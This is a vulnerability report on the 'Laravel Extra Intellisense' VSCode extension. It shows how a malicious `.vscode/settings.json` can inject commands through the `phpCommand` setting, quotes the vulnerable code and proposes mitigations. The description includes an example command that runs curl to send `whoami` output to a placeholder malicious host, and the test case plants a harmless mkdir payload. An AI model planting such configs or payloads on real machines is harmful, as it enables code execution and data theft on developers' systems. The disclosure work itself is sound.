 - Vulnerability Name: Remote Code Execution via `phpCommand` Configuration

- Description:
    1. A malicious actor crafts a workspace configuration (e.g., `.vscode/settings.json`) for a Laravel project.
    2. Within this configuration, the attacker modifies the `LaravelExtraIntellisense.phpCommand` setting.
    3. Instead of a safe PHP command like `php -r "{code}"`, the attacker injects a malicious PHP command, for example: `php -r "system('curl http://malicious-site.com/$(whoami)')"`.
    4. When a developer opens this workspace in VSCode with the "Laravel Extra Intellisense" extension installed and activated, the extension periodically executes PHP commands to gather autocompletion data.
    5. The extension uses the user-provided `phpCommand` from the workspace configuration to execute PHP code.
    6. The malicious PHP command injected by the attacker is executed on the developer's machine, leading to Remote Code Execution.
    7. In the example, the `system('curl http://malicious-site.com/$(whoami)')` command will execute `curl` to send the output of the `whoami` command to `malicious-site.com`, effectively exfiltrating user information or performing other malicious actions as the user running VSCode.

- Impact:
    - Critical. Successful exploitation allows the attacker to execute arbitrary code on the developer's machine with the privileges of the user running VSCode. This can lead to:
        - Full control over the developer's machine.
        - Data exfiltration, including sensitive source code, environment variables, and credentials.
        - Installation of malware, backdoors, or ransomware.
        - Further attacks on internal networks accessible from the developer's machine.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
    - Security Note in README.md: The README.md file includes a "Security Note" that warns users about the extension running their Laravel application and suggests disabling the extension if sensitive code is present in service providers. This is a documentation-based mitigation, but it relies on the user reading and understanding the security implications.

- Missing Mitigations:
    - Input Validation: The extension lacks input validation for the `phpCommand` configuration setting. It should validate that the command is safe and does not contain potentially harmful commands or shell injections.
    - User Warning: When the extension detects a custom `phpCommand` configuration, especially if it deviates from the default, it should display a prominent warning to the user, highlighting the security risks and advising caution.
    - Secure Default: While the default `php -r "{code}"` is relatively safe, the extension could explore more secure ways to execute PHP code or restrict the capabilities of the executed commands.
    - Principle of Least Privilege: The extension should ideally not require executing arbitrary PHP code provided by the user. If PHP code execution is necessary, it should be performed with the minimum required privileges and in a sandboxed environment if possible.

- Preconditions:
    - The victim developer must have the "Laravel Extra Intellisense" VSCode extension installed.
    - The victim developer must open a workspace (Laravel project) that contains a malicious `.vscode/settings.json` file (or similar workspace configuration mechanism).
    - The attacker must be able to deliver or convince the developer to open the malicious workspace. This could be through:
        - Contributing to a public or private Laravel project with the malicious configuration.
        - Tricking the developer into downloading and opening a zip file containing the malicious workspace.
        - Social engineering to get the developer to modify their workspace configuration manually.

- Source Code Analysis:
    1. **Configuration Retrieval:** The extension retrieves the `phpCommand` setting from VSCode configuration using `vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand')` in `helpers.ts` within the `runPhp` function.

    2. **Command Execution:** The `runPhp` function in `helpers.ts` uses `child_process.exec` to execute the command constructed using the `phpCommand` setting and the PHP code to be executed.
    ```typescript
    static async runPhp(code: string, description: string|null = null) : Promise<string> {
        code = code.replace(/\"/g, "\\\"");
        if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
            code = code.replace(/\$/g, "\\$");
            code = code.replace(/\\\\'/g, '\\\\\\\\\'');
            code = code.replace(/\\\\"/g, '\\\\\\\\\"');
        }
        let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\""; // Vulnerable Line: Retrieving phpCommand from configuration
        let command = commandTemplate.replace("{code}", code); // Vulnerable Line: Constructing command without validation
        let out = new Promise<string>(function (resolve, error) {
            if (description != null) {
                Helpers.outputChannel?.info("Laravel Extra Intellisense command started: " + description);
            }

            cp.exec(command, // Vulnerable Line: Executing the command via child_process.exec
                { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
                function (err, stdout, stderr) { ... }
            );
        });
        return out;
    }
    ```
    3. **No Input Sanitization:** The code snippet shows that while there's some escaping of quotes and dollar signs, it's not sufficient to prevent command injection.  Critically, there's no validation of the `commandTemplate` retrieved from user configuration. The extension directly substitutes `{code}` into the user-provided template and executes it.

    4. **Usage in Extension Features:**  Multiple providers (`RouteProvider`, `ViewProvider`, `ConfigProvider`, etc.) use `Helpers.runLaravel` (which internally calls `Helpers.runPhp`) to execute PHP code for fetching Laravel application data for autocompletion. This means the vulnerability can be triggered by simply using the autocompletion features of the extension in a workspace with a malicious `phpCommand` configuration.

- Security Test Case:
    1. **Prerequisites:**
        - Install the "Laravel Extra Intellisense" VSCode extension.
        - Create a new empty folder to simulate a Laravel project workspace.
        - Inside this folder, create a `.vscode` folder.
        - Inside the `.vscode` folder, create a `settings.json` file.
    2. **Malicious Configuration:**
        - Open the newly created folder in VSCode.
        - Edit the `.vscode/settings.json` file and add the following configuration to set a malicious `phpCommand`:
        ```json
        {
            "LaravelExtraIntellisense.phpCommand": "php -r \"system('mkdir /tmp/vscode-laravel-rce-test'); echo 'Vulnerability Triggered'\""
        }
        ```
        - Save the `settings.json` file.
    3. **Trigger Autocompletion (or wait for background tasks):**
        - Open any file in the workspace (or create a new PHP file, e.g., `test.php`).
        - Trigger autocompletion in a PHP context where the extension attempts to fetch data (e.g., by typing `route('` or `config('`).
        - Alternatively, simply wait a short period as some providers might periodically fetch data in the background.
    4. **Verify RCE:**
        - After triggering autocompletion (or waiting), check if the command injected in `phpCommand` was executed.
        - In this test case, the command attempts to create a directory `/tmp/vscode-laravel-rce-test`.
        - Open a terminal and check if the directory `/tmp/vscode-laravel-rce-test` exists.
        - If the directory exists, it confirms that the injected PHP code was executed, demonstrating Remote Code Execution.
        - You should see "Vulnerability Triggered" in the terminal where VSCode is running or in the "Laravel Extra Intellisense" output channel if the extension logs command outputs.
